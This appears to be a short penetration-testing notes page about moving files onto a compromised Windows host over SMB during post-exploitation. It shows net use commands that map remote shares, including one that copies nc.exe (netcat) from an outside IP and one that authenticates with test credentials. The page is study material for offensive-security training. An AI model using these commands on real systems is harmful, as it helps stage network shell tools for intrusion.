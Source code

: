 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Windows
---
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]]

A SMB share can be used across an entire domain
1. [[Impacket#Create SMB Server|Create SMB Server]] SMB server share
2. `Net Use`

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

```cmd-session
copy \\192.168.220.133\share\nc.exe
```

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```


## SMB Uploads 

